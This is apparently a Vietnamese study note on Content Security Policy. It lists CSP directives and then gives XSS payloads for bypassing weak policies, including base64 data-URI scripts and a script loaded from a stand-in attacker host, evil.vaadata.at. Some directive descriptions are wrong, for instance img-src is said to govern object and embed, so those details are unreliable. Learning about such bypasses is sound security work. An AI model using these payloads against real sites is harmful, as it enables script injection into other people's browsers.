 
# Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.

## 3.Một số chính sách của CSP.

# Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau

+ default-src : Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
+ script-src : Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
+ script-src-elem : Nguồn hợp lệ cho <script>thẻ. Nếu không có, script-srcsẽ được sử dụng.
+ frame-src : Nguồn hợp lệ cho <frame>và <iframe>.
+ img-src : Nguồn hợp lệ cho <object>, <embed>và <applet>.
+ style-src : Nguồn hợp lệ cho bảng định kiểu.
+ font-src : Nguồn phông chữ hợp lệ

# Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật

+ sandbox : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với <iframe>).
+ require-trusted-types-for : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
+ trusted-types : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
+ upgrade-insecure-requests : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
+ frame-ancestors : Hạn chế các nguồn được phép cho các phần tử <frame>, <iframe>, <object>, <embed>và <applet>.
+ form-action : Kiểm soát các URL được phép gửi biểu mẫu.
+ base-uri : Hạn chế các nguồn hợp lệ cho <base>thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```
